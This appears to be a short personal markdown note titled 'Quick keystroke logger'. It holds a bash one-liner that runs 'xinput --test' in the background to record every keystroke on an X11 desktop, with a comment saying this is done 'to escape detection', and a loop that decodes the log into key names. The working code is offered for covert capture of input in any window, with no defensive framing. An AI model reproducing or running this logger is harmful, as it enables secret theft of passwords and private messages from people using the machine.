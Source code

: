 ## Quick keystroke logger

```bash
xinput --list # then get id of keyboard
xinput --test $kybd_id > keystrokes.log & # send to bg to escape detection
```
This works for keystrokes on any window, not just the terminal in question.

To decode the logfile:

```bash
while read -r line; do
	grep -oP '[a-zA-Z\s]+' <<< "$line" | tr '\n' '\0'
	n=$(grep -oP '\d+' <<< "$line")
	xmodmap -pke | grep -P "keycode\s+${n} =" | sed 's/keycode\s\+[0-9]\+ = //' || echo $n 
done < keystrokes.log
```

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI0MjY3OTQxNywtMjg1MTAwNzUwXX0=
-->